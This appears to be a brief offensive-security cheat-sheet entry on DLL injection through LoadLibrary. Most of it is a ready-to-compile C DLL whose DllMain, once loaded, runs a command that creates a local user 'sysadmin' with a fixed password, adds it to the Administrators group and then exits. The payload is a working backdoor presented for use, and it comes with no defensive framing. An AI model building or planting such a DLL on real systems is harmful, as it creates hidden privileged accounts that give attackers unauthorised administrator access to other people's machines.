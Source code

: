 # DLL Injection

Loads a dynamic-link library (DLL) module into the address space of the calling process.

```
LoadLibrary
LoadLibraryA
```

```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
	    // add payload
        system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

---
## References

- [Tenouk: Dynamic Link Library - Part 1](https://www.tenouk.com/ModuleBB.html)

- [Tenouk: Dynamic Link Library - Part 2](https://www.tenouk.com/ModuleCC.html)

- [Tenouk: Windows DLL - A Supplementary Note](https://www.tenouk.com/cbbccfunction.html)